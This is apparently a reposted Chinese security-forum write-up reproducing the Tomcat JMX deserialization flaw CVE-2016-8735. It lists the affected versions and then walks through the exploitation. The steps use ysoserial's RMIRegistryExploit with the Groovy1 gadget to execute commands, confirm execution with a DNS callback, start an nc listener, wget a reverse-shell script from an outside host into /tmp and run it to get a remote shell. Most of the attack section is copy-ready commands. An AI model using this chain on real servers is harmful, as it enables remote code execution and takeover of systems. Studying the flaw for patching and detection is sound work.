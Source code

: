 # （CVE-2016-8735）Tomcat 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3197](https://www.zhihuifly.com/t/topic/3197)

# （CVE-2016-8735）Tomcat 反序列化漏洞

## 一、漏洞简介

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

## 二、漏洞影响

ApacheTomcat 9.0.0.M1 到9.0.0.M11
ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38
ApacheTomcat 7.0.0 到7.0.72
ApacheTomcat 6.0.0 到6.0.47

## 三、复现过程

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

```
ping -n 1 qjkpla.ceye.io 
```

Linux ping 一次命令：

```
ping -c 1 qjkpla.ceye.io 
```

利用Ceye回显看是否存在漏洞:

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io" 
```

![image](img/5c635d584ad377166fa6393adc54121b.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![image](img/250cd135739a99bc7b95d5be63f11092.png)

直接NC监听服务：

```
nc -l -vv 12555 
```

![image](img/337a14636fe8cce352b6a8476ed62331.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py" 
```

执行完此命令继续构造命令，去执行刚在wget的脚本

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口" 
```

![image](img/f8bf4b128bf7bec791c54a27504a9a8f.png)

成功反弹：

![image](img/5c3cc5a594376195833b12f1107fa722.png)

![image](img/e9a556604e8b7d9e18984b94d314b537.png)